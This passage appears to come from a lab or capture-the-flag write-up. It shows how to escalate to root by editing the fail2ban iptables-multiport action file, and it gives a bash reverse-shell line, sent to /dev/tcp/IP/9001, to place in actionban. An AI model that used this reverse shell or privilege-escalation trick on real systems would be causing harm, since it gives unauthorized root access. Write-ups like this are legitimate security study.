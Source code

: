 Basically, we need to modify the configuration file, restart the service and trigger the `fail2ban` action to get a shell as root, let's modify:

```
/etc/fail2ban/action.d/iptables-multiport.conf
```

![Pasted image 20250609164528.png](../../IMAGES/Pasted%20image%2020250609164528.png)

On here, we need to modify the `actionban` to match a reverse shell, we can do:

```
actionban = bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"
```
